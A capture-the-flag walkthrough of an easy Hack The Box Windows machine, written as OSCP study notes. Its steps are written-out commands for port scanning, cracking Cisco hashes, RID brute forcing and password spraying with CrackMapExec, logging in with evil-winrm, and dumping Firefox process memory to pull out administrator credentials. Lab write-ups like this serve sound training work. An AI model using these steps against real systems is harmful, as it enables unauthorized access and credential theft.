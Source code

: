 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## ⚙️ Recon

**Nmap Scan**
```bash
nmap -p- --min-rate 10000 -oA nmap-alltcp 10.10.10.149
```
- Port 80: HTTP Web Portal

---

## 🌐 [Web Enumeration](HTTP)

**Browse Web Portal**
- Navigate to: `http://10.10.10.149`
- Found a **Guest login** → displayed usernames and an **attachment** with Cisco password hashes.

---

## 🔓 Cracking Hashes

### 🧩 Type 5 Hash
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### 🧩 Type 7 Hash
Use online Cisco Type 7 decoder (e.g. https://insecure.org/sploits/cisco.password.decoder.html)

---

## 👤 User Enumeration

**RID Brute Force with [CrackMapExec](SMB.md)**
```bash
crackmapexec smb 10.10.10.149 --rid-brute
```

**Password Spray**
```bash
crackmapexec smb 10.10.10.149 -u usernames.txt -p crackedpass
```

---

## 🔐 Gaining Remote Access

**Connect via Evil-WinRM or WinRM manually**
```bash
evil-winrm -i 10.10.10.149 -u ch4rl3s -p [cracked_password]
```

🎉 Found `user.txt` in `C:\Users\ch4rl3s\Desktop`

---

## 🕵️ Investigating the System

**Check files**
```powershell
Get-ChildItem -Path C:\Users\ch4rl3s\Documents\
type C:\Users\ch4rl3s\Documents\todo.txt
```

**Enumerate Processes**
```powershell
Get-Process | where { $_.Path -like "*firefox*" }
```

---

## 📦 Dumping and Analyzing Firefox Memory

**Dump Process Memory**
```powershell
procdump64.exe -ma firefox_pid firefox.dmp
```

**Transfer to attacker machine**
- Use SMB or upload via Evil-WinRM.

**Analyze Memory**
```bash
strings firefox.dmp | grep -i password
```
🎯 Recovered admin credentials!

---

## 🚀 Escalating to Administrator

**Reuse credentials with Evil-WinRM**
```bash
evil-winrm -i 10.10.10.149 -u administrator -p [discovered_password]
```

🎉 Grab `root.txt` from `C:\Users\Administrator\Desktop\`

---

## ✅ Conclusion

- Web app led to leaked Cisco hashes
- Cracking hashes enabled password spray
- Dumped Firefox process memory to recover admin creds
- Completed full escalation path!